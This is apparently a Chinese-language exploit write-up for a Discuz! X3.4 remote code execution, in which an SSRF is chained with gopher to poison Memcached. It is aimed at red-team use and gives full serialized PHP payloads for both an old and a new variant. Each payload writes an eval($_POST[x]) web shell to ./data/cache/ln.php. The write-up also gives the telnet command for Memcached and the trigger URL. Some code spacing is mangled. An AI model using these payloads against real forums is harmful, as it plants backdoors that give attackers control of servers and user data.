





Discuz! X3.4 Memcached未授权访问导致的rce
=========================================

一、漏洞简介
------------

这个漏洞大致利用过程是这样的：利用discuz!的ssrf漏洞，利用gopher协议写入payload到memcached，然后请求特定链接导致代码执行漏洞。

二、漏洞影响
------------

-   \<= x3.4

-   windows

-   php\>5.3+php-curl\<=7.54

-   DZ开放在80端口

三、复现过程
------------

### 漏洞分析

Dz 整合 Memcache
配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

漏洞利用有两个版本，一个是老版本，一个是新版本，discuz！虽然已经是x3.4，代码也发生了变化，漏洞确是任然没有修复。

漏洞利用代码流程逻辑：

访问：

    forum.php?mod=ajax&inajax=yes&action=getthreadtypes
    ./source/module/forum/forum_ajax.php

    ./template/default/common/footer_ajax.htm

    ./source/function/function_core.php

    ./source/function/function_core.php

最后利用`preg_replace`函数`/e`参数的代码执行特性完成了漏洞利用的全部过程。

以上是老版本代码，在网上已经有一些分析了，在这里简述一些，重点是payload的完整性使用。网上文章大部分在payload部分都只是验证性演示。作为一名红队渗透测试人员，验证性payload肯定是不能再实际渗透测试活动中使用的。

### 漏洞复现

***1 老版本漏洞利用流程：***

生成payload

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/e";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

然后telnet链接memcached

    telnet 1.1.1.1 11211
    set xxxxxx_setting 1 0 yyy    //xxxx为前缀，discuz定义的，可以使用stats cachedump 命令查看。yyy为payload长度。

最后访问**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

shell生成\*\*/data/cache/ln.php\*\*

***2 新版本漏洞利用流程***

生成payload有点变化(ps:只是少了一个e)

    <?php
    $payload['output']['preg']['search']['plugins']= "/.*/";
    $payload['output']['preg']['replace']['plugins']= "file_put_contents('./data/cache/ln.php','<?phpeval(\$_POST[x]);?>');";
    $payload['rewritestatus']['plugins']= 1;
    echoserialize($payload);
    a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:4:"/.*/";}s:7:"replace";a:1:{s:7:"plugins";s:68:"file_put_contents('./data/cache/ln.php','<?phpeval($_POST[x]);?>');";}}}s:13:"rewritestatus";a:1:{s:7:"plugins";i:1;}}

访问:**forum.php?mod=ajax&inajax=yes&action=getthreadtypes**

最后一定要恢复缓存

Delete Vtfbsm\_setting

成功写入文件

参考链接
--------

> https://xz.aliyun.com/t/2018
